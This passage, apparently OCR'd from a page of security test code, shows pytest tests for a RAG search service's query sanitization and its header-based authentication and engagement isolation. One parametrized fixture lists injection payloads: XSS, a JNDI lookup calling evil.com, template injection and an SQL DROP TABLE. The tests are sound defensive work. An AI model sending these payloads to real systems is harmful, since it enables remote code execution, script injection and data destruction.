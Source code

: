 ```python
        rag = RAGService()
        with pytest.raises(ValueError, match="Invalid engagement ID"):
            await rag.search("test query", malicious_id)
    
    @pytest.mark.parametrize("malicious_query", [
        "<script>alert('xss')</script>",
        "javascript:alert(1)",
        "${jndi:ldap://evil.com/a}",
        "{{7*7}}",
        "'; DROP TABLE users; --",
    ])
    async def test_search_query_injection(self, malicious_query):
        """Test that malicious search queries are sanitized"""
        from app.api.routes.documents import _validate_search_query
        with pytest.raises(ValueError):
            _validate_search_query(malicious_query)
```

### Test Suite 2: Authentication & Authorization
```python
# /tests/security/test_auth.py
import pytest
from fastapi.testclient import TestClient

class TestAuthentication:
    
    def test_missing_auth_headers(self, client: TestClient):
        """Test that requests without auth headers are rejected"""
        response = client.get("/engagements/test-eng/docs")
        assert response.status_code == 422
        assert "X-User-Email header is required" in response.text
    
    def test_invalid_email_header(self, client: TestClient):
        """Test that invalid email headers are rejected"""
        headers = {
            "X-User-Email": "not-an-email",
            "X-Engagement-ID": "test-eng"
        }
        response = client.get("/engagements/test-eng/docs", headers=headers)
        assert response.status_code == 422
        assert "valid email address" in response.text
    
    def test_engagement_isolation(self, client: TestClient):
        """Test that users cannot access other engagements"""
        # Setup: Create docs in engagement A
        headers_a = {
            "X-User-Email": "user@example.com",
            "X-Engagement-ID": "engagement-a"
        }
        
        # Try to search with engagement B context
        headers_b = {
            "X-User-Email": "user@example.com",
            "X-Engagement-ID": "engagement-b"
        }
        
        response = client.post(
            "/engagements/engagement-a/docs/search",
            headers=headers_b,
            json={"query": "test"}
        )
        assert response.status_code == 403
```
